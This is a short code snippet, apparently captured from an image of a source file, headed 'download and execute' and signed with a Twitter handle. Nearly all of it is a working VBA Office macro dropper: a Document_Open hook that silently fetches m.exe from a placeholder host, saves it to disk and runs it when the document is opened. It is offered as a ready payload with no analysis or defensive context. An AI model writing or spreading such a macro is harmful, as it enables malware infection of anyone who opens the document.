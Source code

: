 
download and execute

Private Sub Document_Open()
    OpenSesame
End Sub

Sub OpenSesame()
    Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
    Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
    xHttp.Open "GET", "http://<domain>/m.exe", False
    xHttp.Send
    
    With bStrm
        .Type = 1 '//binary
        .Open
        .write xHttp.responseBody
        .savetofile "m.exe", 2 '//overwrite
    End With
    
    Shell ("m.exe")
End Sub
//Find me on Twitter at @maxheadroomhaks
